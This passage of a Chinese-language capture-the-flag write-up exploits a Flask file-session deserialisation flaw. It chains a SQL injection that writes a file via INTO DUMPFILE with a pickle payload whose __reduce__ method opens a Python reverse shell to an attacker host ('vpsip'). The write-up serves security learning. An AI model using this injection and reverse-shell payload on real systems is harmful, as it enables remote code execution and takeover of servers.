 ```python
        return self.session_class(data, sid=sid)
    return self.session_class(sid=sid, permanent=self.permanent)
```
发现在`app/Mysessions.py`处理session部分的方法调用了`get`，传进去的参数是`self.key_prefix + sid`，即`前缀+session`值，类似这个样子
`bdwsessions855f1297-d81e-4366-aaaa-80c9edb87338`

配置文件里看到`SESSION_FILE_DIR = "/tmp/ffff"`

所以整个流程大致是这样:

用户注册或登录，取得cookie中的session值，加上前缀后再对文件名进行MD5加密，存储在`/tmp/ffff`目录下

在验证用户的过程中，对`/tmp/ffff`目录相应文件名文件进行反序列化，假如我们对文件名和文件内容可控，那么就可以造成漏洞

结合上一个sql注入漏洞，我们可以`select evilcode into outfile '/tmp/ffff/md5';`

在访问页面的时候修改session值为md5对应的明文，就可以让程序反序列化含有恶意代码的md5文件

修改上面序列化代码:
```python
import cPickle
import os
import subprocess
class Exploit(object):
    def __reduce__(self):
        return (subprocess.Popen, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"vpsip\",82));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'",))
shellcode = cPickle.dumps(Exploit())
print '0x' + shellcode .encode('hex')
```
假设我们要设置session为testabcd，对应的`bdwsessionstestabcd`md5值为`209a05e8b11c8e74ab03c110e6e5d591`

构造sql语句
```sql
select id from user where email = 'test'/**/union/**/select/**/0x63636F6D6D616E64730A../**/into/**/dumpfile/**/'/tmp/ffff/209a05e8b11c8e74ab03c110e6e5d591'#@test.com'
```
这样就把十六进制的恶意代码写入了`/tmp/ffff/`下

然后访问index，修改cookie的session值为`testabcd`，触发反序列化漏洞后反弹shell

![reverse_shell](https://ob5vt1k7f.qnssl.com/mYzKP)


总结：
- RPO可以结合XSS进行攻击，开发时不注意的话容易被利用
- 反序列化问题一直都存在，这道题中虽然代码比较简单，利用起来还是有几个坑，还需要多学习